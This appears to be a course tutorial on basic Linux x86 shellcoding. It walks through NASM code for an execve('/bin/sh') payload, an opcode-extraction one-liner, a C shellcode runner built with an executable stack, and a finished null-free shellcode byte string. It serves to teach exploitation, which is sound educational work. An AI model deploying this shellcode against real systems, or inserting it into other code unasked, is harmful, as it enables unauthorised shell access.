




:orphan:
(linux-exploitation-basic-linux-shellcoding)=

# Linux Exploitation: Basic Linux Shellcoding

Shellcoding is a form of system exploitation in which an attacker inserts malicious code into a program or file in order to execute arbitrary commands. Shellcode is often used to create a backdoor in a system, allowing the attacker to gain access and control. In many cases, the attacker will encode the shellcode to avoid detection.

## x86 Assembly

The Assembly programming language enables direct communication with the machine's processor.

Due to the fact that it is a low-level programming language, it is only used for certain applications, such as building device drivers.

Assembly is not the language to use if you want to design a graphical user interface.

Assembly language consists of instructions that tell the processor explicitly what to do with its components, such as add a value to the register or move data from the register to the stack.

With high-level programming languages, you can specify variables, and the language engine or compiler takes care of the language's internals during compilation or interpretation. In Assembly, you are responsible for absolutely everything.

Important from the perspective of exploit creation is that assembly instructions can be directly converted to _opcodes_, which are processor-understandable bytes.

Shellcode is made up of opcodes.

Each metasploit payload in executable format, for instance, comprises numerous opcodes that ultimately allow the process to execute particular activities (such as create a shell or establish a remote connection).

We will utilize Assembly to generate our desired shellcode.

Before we write shellcode, ensure that `nasm` and `objdump` are installed on your computer. Install them if not using:

```bash
sudo apt-get install binutils nasm
```

Let's attempt to develop some elementary shellcode that launches `/bin/bash`. In order to accomplish this, we shall use `execve` syscall #11 (`0xb`).

This C function simply launches the program specified by its argument.

To execute a syscall, the following register must be configured:

- The syscall number is stored in `EAX (0x0b)`.
- `EBX` will contain the name of the executable application.
- `ECX` can be `null`.
- Following that, we shall call `int 0x80`

You can complete the aforementioned work by following the Assembly code on your bottom:

```nasm
section .data
    shell db '/bin/sh' ; db = define byte. We basically declare a string variable

section .text
    global _start  ; Syntax requires that decalration. It is comparable to int main()

_start:
    mov eax, 11    ; We store the syscall number in eax
    mov ebx, shell ; Address of the shell variable (string /bin/sh) is stored in ebx
    mov ecx, 0     ; ECX can be null
    int 0x80       ; Interrupt instruction – we issue the syscall

    mov eax, 1     ; Next syscall – 1 is number of exit()
    mov ebx, 0     ; Exit code – return 0
    int 0x80       ; Issue the syscall with Interrupt 0x80
```

This program can be compiled using `nasm`, which will provide an object file as output.

The object files contain non-directly executable object code. It must be run through a linker in order to generate an executable file. When compiling (using `gcc`, for example), these two jobs are executed during the compilation process.

The object files contain object code, which is the primary output of the compiler. The linker can link (join) multiple object files (such as the executable and a library it includes) and generate an executable file.

In this instance, we only have a single file, but we still need to run two tools to generate an executable.

So as we are compiling Assembly to an executable format, let's
use `nasm` and `ld` to produce the executable out of that code.

```bash
nasm -f elf32 -o ex1.o ex1.asm
ld -m elf_i386 -o ex1 ex1.o
```

However, we were supposed to generate shellcode, not an executable. Shellcode can be extracted from the executable file. Examine the executable using `objdump`:

```bash
objdump -M intel -d ex1
```



We can see that `objdump` accurately decompiled the executable and that the address of the `"/bin/sh"` string was moved to `ebx`.

If we are able to collect the opcodes, we can form the shellcode:



Obviously, we do not wish to rewrite each one individually. Utilize some useful bash one-liners to complete the task.
Save as `shell_extract.sh` the script:

```bash
#!/bin/bash
if [ -z "$1" ]
then
    echo "Usage: $0 <path to executable>"
    exit
fi

objdump -d $1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

After using it on the executable, we retrieve the opcodes:

```bash
./shell_extract.sh ex1
```



The preceding sequence of bytes, when placed in executable memory and when the `EIP` is redirected to them, will cause the program to execute the Assembly instructions we coded in the initial file and will launch the `/bin/bash` command.

To simulate such in-memory placement, a specialized shellcode tester program can be utilized. This is a well-known code that is widely employed for shellcode testing:

```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "\x31\xc0\x31...";

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1,
  // so our shellcode worked
  return 1;
}
```

Can we then utilize the extracted shellcode from our executable? Not yet. We will now declare a character array.

In C, the `null byte (0x00)` serves as both the string terminator and character terminator.

If compile and run:

```bash
gcc -z execstack -m32 -o run run.c
./run
```

As the third byte of the shellcode is the `null`-byte, the
shellcode tester reads just two characters (until the `null`
byte) and then exits.

The null bytes exist due to the opcodes of specific operations, such as `mov reg, 0` which is a guaranteed instruction to generate a null byte.

To eliminate null bytes, we will need to slightly restructure the code.

Rather than moving 0 to a register, for instance, we will use the `XOR` instruction.

By pushing the string `"/bin/sh"` onto the stack rather than storing it in a variable, shellcode can be modified to eliminate null.

Note that as it is a string, it must end with a null byte and adhere to the reverse order of the memory.

```nasm
section .text
    global _start  ; Syntax requires that decalration. It is comparable to int main()

_start:
    xor eax, eax    ; we zero out EAX. Its value is now 0
    push eax
    push 0x68732f2f ; ASCII sh//
    push 0x6e69622f ; ASCII nib/

    mov ebx, esp    ; currently the string /bin/sh is on the top of the stack. As EIP points to the top of the stack, we move it to ebx as pointer to the program to be executed

    mov ecx, eax    ; eax is still 0 as we didn’t change it Let's copy the zero to ecx.
    mov al, 0xb     ; we move 11 to eax, but we do it by targeting the lowest quarter of EAX.
    int 0x80        ; execute syscall
```

The new code is compiled in the same way:

```bash
nasm -f elf32 -o ex2.o ex2.asm
ld -m elf_i386 -o ex2 ex2.o
```

Also, there are no null bytes:



Paste the resulting shellcode into the shellcode tester application:

```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\xb0\x0b\xcd\x80";

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1,
  // so our shellcode worked
  return 1;
}
```

and compile it with `gcc`:

```bash
gcc -z execstack -m32 -o run run.c
./run
```

You can now write null-free, fundamental `execve()` shellcode that launches a shell.

> **Looking to expand your knowledge of vulnerability research and exploitation? Check out our online course, [MVRE - Certified Vulnerability Researcher and Exploitation Specialist](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html). In this course, you'll learn about the different aspects of software exploitation and how to put them into practice.**
